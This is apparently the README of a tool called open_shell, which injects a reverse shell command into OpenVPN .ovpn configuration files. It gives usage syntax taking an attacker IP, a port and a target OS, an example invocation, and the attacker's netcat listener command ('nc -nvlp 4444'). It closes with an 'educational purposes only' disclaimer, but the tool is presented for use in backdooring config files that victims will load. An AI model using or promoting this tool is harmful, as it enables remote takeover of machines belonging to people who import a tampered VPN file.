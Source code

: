 # open_shell
![image](https://github.com/user-attachments/assets/ee0cc6f9-d355-48e0-b00f-227071948e6a)

open_shell is a tool to inject a reverse shell command to open_vpn config file

Usage: python open_shell.py [path_to_file.ovpn] [attacker_ip] [attacker_port] [os] -> (windows,linux)
Example: python open_shell.py vpn_file.ovpn 192.168.1.8 4444 linux
Attacker: nc -nvlp 4444 


[WARNING] This Tool Only For Educational Purposes Only,You are responsible for using the tool.
